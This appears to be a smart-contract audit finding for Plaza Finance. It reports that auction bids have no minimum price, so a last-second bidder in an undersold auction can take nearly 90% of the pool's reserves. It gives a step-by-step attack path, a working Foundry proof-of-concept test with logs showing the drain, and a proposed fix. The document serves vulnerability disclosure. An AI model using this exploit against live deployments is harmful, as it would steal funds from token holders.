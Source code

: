 Suave Vermilion Worm

Medium

# Lack of minimum price for bid might lead to pool drain

### Summary

Currently, when a user is bidding on an auction, he provides the desired reserve token amount to purchase and the tokens he is willing to pay for that. While there are a lot of validations for the coupon amount he has provided, there are non for the reserve token amount he can purchase. This means that the user can input any value of reserve tokens he want, and in case there are no better bids, he will receive these reserve tokens at a huge premium.

### Root Cause

When creating an auction, the pool provides a `poolSaleLimit`, which represents the percentage of the pool, the protocol is willing to sell in order to pay the Bond Token holder the yield, they are owed. The minimum value of this limit is 90% ([ref](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L39)). This check is enforced upon auction ending ([ref](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341)).

When placing a bid the user can choose any amount of reserve tokens he wants to buy for the amount of coupon tokens he provides ([ref](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L125)).

In case of unattended auction, or auction that hasn't fulfilled the target coupon amount, a malicious user can select up to `poolSaleLimit * poolReserveBalance / 100 - 1` reserve tokens. Which will lead to buying reserve tokens at a huge premium.

### Internal Pre-conditions

_No response_

### External Pre-conditions

1. Auction has low participation rate

### Attack Path

1. Auction is created
2. No user attends it or the auction is undersold
3. At the last minute the attacker deposits the required coupon tokens in exchange of almost 90% of the pool's reserves.
4. The auction is ended.
5. The user claims almost 90% of the pool's reserves. 

### Impact

Users can retrieve reserve tokens at a huge premium, which will lead to a loss for the Bond and Leverage tokens holders.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";

import {Pool} from "src/Pool.sol";
import {Token} from "test/mocks/Token.sol";
import {Utils} from "src/lib/Utils.sol";
import {Auction} from "src/Auction.sol";
import {BondToken} from "src/BondToken.sol";
import {PoolFactory} from "src/PoolFactory.sol";
import {Distributor} from "src/Distributor.sol";
import {OracleFeeds} from "src/OracleFeeds.sol";
import {LeverageToken} from "src/LeverageToken.sol";
import {Deployer} from "src/utils/Deployer.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";

contract AuctionPoC is Test {
    Auction auction;
    Token usdc;
    Token weth;

    address bidder = address(0x1);
    address governance = address(0x4);

    address pool;

    uint256 amount;
    uint256 constant RESERVE_AMOUNT = 100 ether;
    uint256 constant POOL_SALE_LIMIT = 90; // 90%

    function createPool(address reserve, address coupon) public returns (address) {
        vm.startPrank(governance);
        address deployer = address(new Deployer());
        address oracleFeeds = address(new OracleFeeds());

        address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
        address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
        address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
        address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

        PoolFactory poolFactory = PoolFactory(
            Utils.deploy(
                address(new PoolFactory()),
                abi.encodeCall(
                    PoolFactory.initialize,
                    (governance, deployer, oracleFeeds, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
                )
            )
        );

        PoolFactory.PoolParams memory params;
        params.fee = 0;
        params.reserveToken = reserve;
        params.sharesPerToken = 2500000;
        params.distributionPeriod = 90 days;
        params.couponToken = coupon;

        poolFactory.grantRole(poolFactory.GOV_ROLE(), governance);
        poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);

        Token(reserve).mint(governance, RESERVE_AMOUNT);
        Token(reserve).approve(address(poolFactory), RESERVE_AMOUNT);

        return poolFactory.createPool(
            params,
            RESERVE_AMOUNT,
            10000 * 10 ** 18,
            10000 * 10 ** 18,
            "Bond ETH",
            "bondETH",
            "Leverage ETH",
            "levETH",
            false
        );
    }

    function setUp() public {
        usdc = new Token("USDC", "USDC", false);
        weth = new Token("WETH", "WETH", false);

        pool = createPool(address(weth), address(usdc));

        Pool(pool).setAuctionPeriod(10 days);
        skip(95 days);
        Pool(pool).startAuction();
        auction = Auction(Pool(pool).auctions(0));
        amount = auction.totalBuyCouponAmount();
    }

    //2
    function test_userCanWithdrawAlotReserveTokens() public {
        console.log("Pool reserve balance before auction: ", weth.balanceOf(pool));

        //Auction that will not be filled
        vm.warp(block.timestamp + 10 days - 1);

        // Bidder enters at the last second
        vm.startPrank(bidder);
        usdc.mint(bidder, amount);
        usdc.approve(address(auction), amount);
        uint256 reserveAmountToBuy = RESERVE_AMOUNT * POOL_SALE_LIMIT / 100 - 1;
        auction.bid(reserveAmountToBuy, amount);
        vm.stopPrank();

        vm.warp(block.timestamp + 2);

        // End the auction
        auction.endAuction();

        console.log("Pool reserve balance after auction: ", weth.balanceOf(pool));
        console.log("Auction balance: ", weth.balanceOf(address(auction))); // 89.99(9)%

        assertEq(weth.balanceOf(pool), RESERVE_AMOUNT * 10 / 100 + 1); // 10% + 1 wei left
    }
```
Logs:
```logs
        Pool reserve balance before auction:  100000000000000000000
        Pool reserve balance after auction:  10000000000000000001
        Auction balance:  89999999999999999999
```

### Mitigation

Enforce a minimum bid price to ensure that the reserve tokens will not be purchased at a huge premium.